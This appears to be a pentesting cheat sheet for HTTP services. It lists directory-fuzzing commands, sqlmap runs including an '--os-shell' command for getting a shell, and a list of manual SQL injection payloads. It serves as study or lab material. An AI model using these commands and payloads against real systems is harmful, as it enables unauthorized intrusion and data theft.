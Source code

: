 ## 80 - HTTP

Web Server.

### Enumeration of directories

```bash
gobuster dir -u <IP> -w <pass_wordlist.txt> -x php,txt,html -o <output file>
dirb -u <IP> -w <pass_wordlist.txt> -X php,txt,html -o <output file>
```

We can also **fuzz** URLs to see if there might be an LFI (Local File Inclusion), it is more probable if there's some page like `/cod=1?`:

```bash
wfuzz -c -v -A -z file,<fuzz_wordlist.txt> http://192.168.1.202/FUZZ
```

It's recommended to view the source code (`ctrl + u`) and start clicking on every link as there might be directories that aren't in our wordlists.

### Technologies

If the page runs a CMS (Content Management System) we can look if there's any exploit for it or there was a vulnerability we can exploit in some way. For WordPress there's a unique tool called `wpscan`.

Discovery of this can be made through manual inspection or with the `Wappalyzer` browser plugin, which identifies CMS, Plugins, etc. on the webpage.

### Logins

Run SQLMap against logins as there might be some misconfiguration in the database that allowed us access:

```bash
sqlmap -u http://<IP> --level 5 --risk 3

# Only if you have a request file (ie.: from Burp Suite)
sqlmap -r <file.req> --level 5 --risk3
```

If we find that the database is vulnerable in any way, we can extract all tables and try to get a shell.

```bash
sqlmap -u http://<IP>/index.php?cod=1 --batch -D <table> --os-shell
# -D to dump a table
# --os-shell to get a shell
```

If there's no luck, we can try manual injections:

```mysql
'
0 OR 1=1
0 OR 1=2
" OR ""="
';--
;SELECT * FROM ALL_TABLES;
item' AND 1 = SLEEP(2);
item ' UNION (SELECT TABLE_NAME, TABLE_SCHEMA, 3 FROM information_schema.tables);--
;admin'='
\;';--
```
